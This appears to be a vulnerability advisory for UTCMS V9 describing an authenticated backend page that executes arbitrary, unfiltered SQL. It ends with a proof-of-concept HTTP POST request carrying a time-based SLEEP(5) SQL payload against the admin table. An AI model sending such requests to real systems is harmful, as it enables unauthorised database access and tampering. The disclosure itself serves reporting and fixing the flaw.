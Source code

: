 # Vendor

Yu Bao

# Product

UTCMS

# version

 V9

# Download 

https://github.com/usualtool/ut-cms

# Vulnerability

Execute any SQL statement

# Description

In the sql.php page, users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

# Analysis

In the app/modules/ut-data/admin/mysql.php , users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

<img width="1053" height="295" alt="image" src="https://github.com/user-attachments/assets/fcef40b4-23bb-452f-b2c3-25110015ae3a" />

We reproduce under normal no delay
<img width="1413" height="914" alt="image" src="https://github.com/user-attachments/assets/6ffb4526-40ef-4503-b08b-6ab061fee477" />


5 seconds to see
<img width="1418" height="919" alt="image" src="https://github.com/user-attachments/assets/26c04500-0c27-41ae-adac-c3ab509d1ada" />



# POC
```
POST /ut-cms-9/app/dev/?m=ut-data&p=mysql&do=mysql-sql HTTP/1.1
Host: 192.168.1.69
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=l7s63btrio4o1cepgib2l9v89m
Content-Length: 45

sql=SELECT+*+FROM+cms_admin+WHERE+SLEEP(5)%3b
```

